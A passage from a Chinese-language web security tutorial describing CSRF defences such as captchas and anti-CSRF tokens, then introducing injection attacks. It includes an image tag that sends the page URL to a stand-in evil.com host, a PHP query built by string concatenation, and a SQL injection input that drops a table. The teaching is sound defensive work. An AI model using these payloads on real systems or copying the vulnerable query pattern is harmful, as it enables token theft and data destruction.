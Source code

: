 CSRF是一种难以识别的攻击，对于CSRF的防御可以采取以下措施。

##### 1. 验证码

CSRF攻击是伪造成用户的身份，自动发起恶意的请求。那么我们可以强迫攻击者与我们的网站进行交互。在一些操作之前加入验证码校验，可以抵御一部分的CSRF攻击。但是加入验证码会影响用户的体验，所以验证码不能作为主要的防御手段。

##### 2. Anti CSRF Token

CSRF攻击的原理，是攻击者伪装成用户身份，发起恶意请求。那么攻击者除了要伪装成功，还需要“猜”出请求的参数。那么如果我们在请求中，加入一个随机的Token，攻击者就永远没有办法”猜“出恶意请求的参数了，这就是Anti CSRF Token。  

Token参数最好放在一个表单中，而不是放在URL里面。比如以下URL。

```

    http://host/path/manage?username=abc&token=[random]
```

因为攻击者可以在当前页面植入恶意的脚本如：

```
<img src="http://evil.com/notexist">
```

则当前页面的  URL回作为HTTP请求的Refferer，发送到evil.com服务器上。因此，最好把Token放在表单中，把敏感操作由GET改为POST,这样可以增加黑客进行CSRF攻击的难度。  

一定要记住的一点是：** Anti CSRF Token 仅仅是用来防御CSRF攻击，而不能防御XSS攻击。XSS攻击必须要采用相应的防御手段。

### 注入攻击

#### 简介

注入攻击的本质，是把用户输入的数据当作代码执行。这里有**两个条件**，一个是用户能够控制输入，一个是原本程序要执行的代码拼接了用户的数据。注入攻击包括SQL注入、XML注入、CRLF注入、代码注入。  

下面是一个SQL注入的典型例子。

```
$var=shipCity;
$shipCity=$_POST['shipCity'];
$shipCity="select * from OrdersTable where ShipCity='".$shipCity."'";
```

变量`$shipCity` 的值由用户提交，当用户输入”Beijing“，那么将要执行的SQL语句是

```
SELECT * FROM OrderTable where ShipCity='Beijing'
```

但如果用户输入一段有语义的SQL如

```
Beijing';drop table OrderTable--
```

那么实际执行的SQL语句如下：

```
SELECT * FROM OrderTable WHERE ShipCity='Beijing' ; drop table OrderTable--
```
